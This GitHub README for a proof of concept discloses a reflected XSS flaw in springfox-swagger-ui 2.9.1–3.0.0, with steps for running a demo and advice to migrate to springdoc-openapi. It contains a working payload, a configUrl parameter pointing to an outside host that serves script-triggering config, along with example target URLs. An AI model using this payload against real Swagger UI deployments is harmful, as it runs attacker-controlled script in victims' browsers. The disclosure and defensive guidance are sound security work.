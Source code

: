 # Springfox XSS PoC

## Credit and Thanks
Example application was copied from: [https://github.com/evrentan/my-swagger-ui-example](https://github.com/evrentan/my-swagger-ui-example)

All credit for code goes to: [evrentan](https://github.com/evrentan) for providing the excellent example code!

## Quick Details
**Package**: [springfox-swagger-ui](https://mvnrepository.com/artifact/io.springfox/springfox-swagger-ui)

**Versions Affected**: [2.9.1, 3.0.0]

**Type of Issue**: [Reflected XSS](https://owasp.org/www-community/attacks/xss/)

**Payload/PoC**: `?configUrl=https://xss.smarpo.com/test.json` -- Append this to end of the Swagger UI URL and an alert dialog should fire.

* eg. `https://example.com/swagger-ui/index.html?configUrl=https://xss.smarpo.com/test.json`

## Am I vulnerable?
If your application bundles the Swagger UI using one of the many Springfox packages (2.9.1 to 3.0.0 versions) AND you make the Swagger UI "routable" (aka, it can be loaded in a browser), your application has an XSS issue.

For example, if your app includes `springfox-boot-starter:3.0.0` and your Swagger UI is available at https://localhost/swagger -- you are vulnerable.

For example, if your app includes `springfox-swagger-ui:2.10.5` and your Swagger UI is available at: https://example.com/swagger/swagger-ui -- you are vulnerable.

## About
Springfox is a commonly used library for JVM-based languages to easily provide JSON documentation.
Springfox includes a vulnerable version of the Swagger UI with known XSS vulnerabilities.

The vulnerable Swagger UI bundled version is shown at: [https://github.com/springfox/springfox/blob/master/springfox-swagger-ui/build.gradle#L24](https://github.com/springfox/springfox/blob/master/springfox-swagger-ui/build.gradle#L24)

## Running the PoC

Ensure you have JDK 11 available to properly build this.

1. Run: `mvn spring-boot:run`
2. Navigate to: http://localhost:8080/swagger-ui/index.html?configUrl=https://xss.smarpo.com/test.json

XSS Payloads are hosted at: [seanmarpo/swagger-xss-payloads](https://github.com/seanmarpo/swagger-xss-payloads)

## Mitigation / Solutions

Good news, bad news. Springfox appears to no longer be maintained, however [springdoc-openapi](https://github.com/springdoc/springdoc-openapi) is a drop-in replacement that is actively being maintained.

The migration guide to springdoc from springfox can be found at: [https://springdoc.org/#migrating-from-springfox](https://springdoc.org/#migrating-from-springfox).

## Copyright

GNU General Public License v3.0
Permissions of this strong copyleft license are conditioned on making available complete source code of licensed works and modifications, which include larger works using a licensed work, under the same license. Copyright and license notices must be preserved. Contributors provide an express grant of patent rights.
